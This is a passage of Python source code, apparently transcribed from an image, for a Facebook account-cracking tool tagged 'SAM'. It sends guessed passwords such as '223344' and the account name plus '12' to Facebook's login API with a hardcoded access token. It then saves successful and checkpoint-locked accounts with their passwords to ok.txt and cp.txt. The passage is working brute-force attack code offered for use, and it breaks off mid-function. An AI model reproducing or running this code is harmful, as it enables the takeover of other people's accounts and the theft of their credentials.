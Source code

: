 		                                            ok=open("ok.txt","a")

		                                            ok.write(uid+" | "+pass5+"\n")

		                                            ok.close()

		                                            oks.append(uid)

		                                        else:

		                                            pass6="223344"

		                                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		                                            d=json.loads(q)

		                                            if 'www.facebook.com' in d['error_msg']:

		                                                print("\x1b[1;93m[SAM-CP] "+uid+" | "+pass6)

		                                                cp=open("cp.txt","a")

		                                                cp.write(uid+" | "+pass6+"\n")

		                                                cp.close()

		                                                cps.append(uid)

		                                            else:

		                                                if 'access_token' in d:

		                                                    print("\x1b[1;97m[SAM-OK] "+uid+" | "+pass6+"\x1b[1;0m")

		                                                    ok=open("ok.txt","a")

		                                                    ok.write(uid+" | "+pass6+"\n")

		                                                    ok.close()

		                                                    oks.append(uid)

		                                                else:

		                                                    pass7=name+"12"

		                                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		                                                    d=json.loads(q)

		                                                    if 'www.facebook.com' in d['error_msg']:

		                                                        print("\x1b[1;93m[SAM-CP] "+uid+" | "+pass7)

		                                                        cp=open("cp.txt","a")

		                                                        cp.write(uid+" | "+pass7+"\n")
